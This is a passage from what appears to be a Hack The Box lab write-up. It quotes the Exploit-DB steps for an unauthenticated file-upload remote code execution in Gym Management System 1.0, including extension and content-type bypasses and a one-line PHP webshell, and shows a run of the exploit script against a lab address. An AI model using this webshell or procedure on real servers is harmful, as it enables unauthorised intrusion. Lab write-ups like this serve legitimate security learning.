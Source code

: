  Gym Management Software 1.0 - contact page

[https://projectworlds.in/free-projects/php-projects/gym-management-system-project-in-php/](https://projectworlds.in/free-projects/php-projects/gym-management-system-project-in-php/) [https://www.exploit-db.com/exploits/48506](https://www.exploit-db.com/exploits/48506)

> Gym Management System version 1.0 suffers from an Unauthenticated File Upload Vulnerability allowing Remote Attackers to gain Remote Code Execution \(RCE\) on the Hosting Webserver via uploading a maliciously crafted PHP file that bypasses the image upload filters. Exploit Details:
>
> ```text
> #   1. Access the '/upload.php' page, as it does not check for an authenticated user session.
> #   2. Set the 'id' parameter of the GET request to the desired file name for the uploaded PHP file.
> #     - `upload.php?id=kamehameha`
> #     /upload.php:
> #        4 $user = $_GET['id'];
> #       34       move_uploaded_file($_FILES["file"]["tmp_name"],
> #       35       "upload/". $user.".".$ext);
> #   3. Bypass the extension whitelist by adding a double extension, with the last one as an acceptable extension (png).
> #     /upload.php:
> #        5 $allowedExts = array("jpg", "jpeg", "gif", "png","JPG");
> #        6 $extension = @end(explode(".", $_FILES["file"]["name"]));
> #       14 && in_array($extension, $allowedExts))
> #   4. Bypass the file type check by modifying the 'Content-Type' of the 'file' parameter to 'image/png' in the POST request, and set the 'pupload' paramter to 'upload'.
> #        7 if(isset($_POST['pupload'])){
> #        8 if ((($_FILES["file"]["type"] == "image/gif")
> #       11 || ($_FILES["file"]["type"] == "image/png")
> #   5. In the body of the 'file' parameter of the POST request, insert the malicious PHP code:
> #       <?php echo shell_exec($_GET["telepathy"]); ?>
> #   6. The Web Application will rename the file to have the extension with the second item in an array created from the file name; seperated by the '.' character.
> #       30           $pic=$_FILES["file"]["name"];
> #       31             $conv=explode(".",$pic);
> #       32             $ext=$conv['1'];
> #   - Our uploaded file name was 'kaio-ken.php.png'. Therefor $conv['0']='kaio-ken'; $conv['1']='php'; $conv['2']='png'; 
> #   7. Communicate with the webshell at '/upload.php?id=kamehameha' using GET Requests with the telepathy parameter.
> ```

The exploit instructions looked more complicated than they actually were.

```text
┌──(zweilos㉿kali)-[~/htb/buff]
└─$ python3 ./buff-exploit.py 'http://10.10.10.198:8080/'                                           1 ⨯
            /\
/vvvvvvvvvvvv \--------------------------------------,                                                  
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.

Exiting.
```
